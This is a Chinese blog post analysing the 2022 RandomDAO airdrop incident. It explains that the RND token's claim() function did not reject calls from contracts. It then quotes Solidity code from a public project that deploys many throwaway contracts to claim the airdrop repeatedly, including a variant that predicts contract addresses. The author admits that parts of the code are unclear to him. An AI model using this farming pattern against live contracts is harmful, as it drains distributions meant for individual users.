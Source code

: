 # RandomDAO事件及其分析

## 事件概要

2022年2月4日，12岁中国深圳小学生黄振（网传名）在 [B站](https://space.bilibili.com/516216318) 和 [twitter](https://twitter.com/therandomdao) 上发布了自己的solidity教学视频，发布了自己的教学项目 [RandomDAO](http://therandomdao.com/)。随着一些大V的转发，这个项目引起了币民们的注意。直到2022年2月8日，已经有超过47000个地址领取了他发布的空投代币 [RND](https://etherscan.io/token/0x1c7E83f8C581a967940DBfa7984744646AE46b29)，并曾达到ETH消耗gas费排行第二。

## 事件分析

由于这是一个偏向技术的社群，因此我一般只关注技术方面的特点。黄振同学（暂且先这么称呼着）发布的 Random 合约只是一个普通的 ERC20 合约加一个空投逻辑，本来是不值得开篇文章说的。但是区块链网络上出现了一个随之而生的突变：[https://github.com/33357/airdrop_multi_claim](https://github.com/33357/airdrop_multi_claim) 这个合约实现了对 Random 合约空投的批量获取，并借此获取了大量收益 [https://etherscan.io/tx/0xfc1d5688c18244764fe3678020b4821a8c215c7a7f42685814b3cf49557967ff](https://etherscan.io/tx/0xfc1d5688c18244764fe3678020b4821a8c215c7a7f42685814b3cf49557967ff)（保守估计30多个ETH）, 这就非常值得我来好好研究一下它的实现逻辑了。

## 合约分析

- 操作原理

    我们看到 [https://etherscan.io/address/0x1c7E83f8C581a967940DBfa7984744646AE46b29#code](https://etherscan.io/address/0x1c7E83f8C581a967940DBfa7984744646AE46b29#code) 上的获取空投函数是这样写的

    ```
        function claim() external{
            if( (uint32(block.timestamp)-release_time) <= 360 days && is_claim[msg.sender] == false ){
                is_claim[msg.sender] = true;
                yet_claim_people.push(msg.sender);
                _mint(msg.sender,return_claim_number());
            }   
        }
    ```
    这里对`claim`函数的检查只有两个：
    - `(uint32(block.timestamp)-release_time) <= 360 days`，领取空投的时间需要在合约发布之后的360天之内。
    - `is_claim[msg.sender] == false`，领取过的地址不能再领取。
    但是这里并没有拒绝合约的调用。也就是说，使用合约地址进行claim是完全可以的，这就为接下来的操作提供了基础。

- 批量创建合约实现批量领取空投

    - multi_claim_with_selfdestruct.txt

        在 [multi_claim_with_selfdestruct.txt](https://github.com/33357/airdrop_multi_claim/blob/main/contracts/multi_claim_with_selfdestruct.txt) 文件中，可以看到主方法`call`的实现
        ``` javascript
        function call(uint256 times) public {
            for(uint i=0;i<times;++i){
                new claimer(contra);
            }
        }
        ```
        这里通过`for`循环实现了批量创建合约`claimer`。
        
        接下来看`claimer`合约的实现
        ``` javascript
        contract claimer{
            constructor(address contra){
                airdrop(contra).claim();
                uint256 balance = airdrop(contra).balanceOf(address(this));
                airdrop(contra).transfer(address(tx.origin), balance);
                selfdestruct(payable(address(msg.sender)));
            }
        }
        ```
        在`claimer`合约初始化函数`constructor`中，调用了`airdrop`合约的`claim`方法，而`airdrop`合约就是上面提到的`RND`代币空投合约。在获取`RND`代币的空投之后，`claimer`合约会将`RND`代币转给调用链发起人`tx.origin`，最后调用`selfdestruct`自毁合约。（这里自毁合约的逻辑没有搞清楚，据说自毁合约可以返还gas费，不知真假）
        
    - multi_claim.sol

        在[multi_claim.sol](https://github.com/33357/airdrop_multi_claim/blob/main/contracts/multi_claim.sol) 文件中，可以看到它的实现逻辑和 `multi_claim_with_selfdestruct.txt` 是一样的，但是多了一个额外的函数 `addressto`
        ``` javascript
        function addressto(address _origin, uint256 _nonce) internal pure returns (address _address) {
            bytes memory data;
            if(_nonce == 0x00)          data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, bytes1(0x80));
            else if(_nonce <= 0x7f)     data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, uint8(_nonce));
            else if(_nonce <= 0xff)     data = abi.encodePacked(bytes1(0xd7), bytes1(0x94), _origin, bytes1(0x81), uint8(_nonce));
            else if(_nonce <= 0xffff)   data = abi.encodePacked(bytes1(0xd8), bytes1(0x94), _origin, bytes1(0x82), uint16(_nonce));
            else if(_nonce <= 0xffffff) data = abi.encodePacked(bytes1(0xd9), bytes1(0x94), _origin, bytes1(0x83), uint24(_nonce));
            else                        data = abi.encodePacked(bytes1(0xda), bytes1(0x94), _origin, bytes1(0x84), uint32(_nonce));
            bytes32 hash = keccak256(data);
            assembly {
                mstore(0, hash)
                _address := mload(0)
            }
        }
        ```
        据我所知，这个函数实现了对部署下一个合约地址的预测，在`claimer`合约当中
        ``` javascript
        contract claimer{
            constructor(address selfAdd, address receiver){
                address contra = address(0xbb2A2D70d6a4B80FA2C4d4Ca43a8525da430196c);
                airdrop(contra).claim();
                uint256 balance = airdrop(contra).balanceOf(selfAdd);
                require(balance>0,'Oh no');
                airdrop(contra).transfer(receiver, balance);
            }
        }
        ```
        在`uint256 balance = airdrop(contra).balanceOf(selfAdd)`中，`selfAdd`是预测出来的合约合约地址，所以这里能获取正确的`balance`。这个`claimer`合约移除了`selfdestruct`函数。

    - 疑问

        在`README.md`文件中，说 `multi_claim合约实现了高效撸（一次交易claim多次）没有EOA机制的合约` 对此我没有能够完全理解，特别是做地址预测的目的和 `selfdestruct` 的使用，希望有知道的大佬们告诉一下，好填完这个坑。



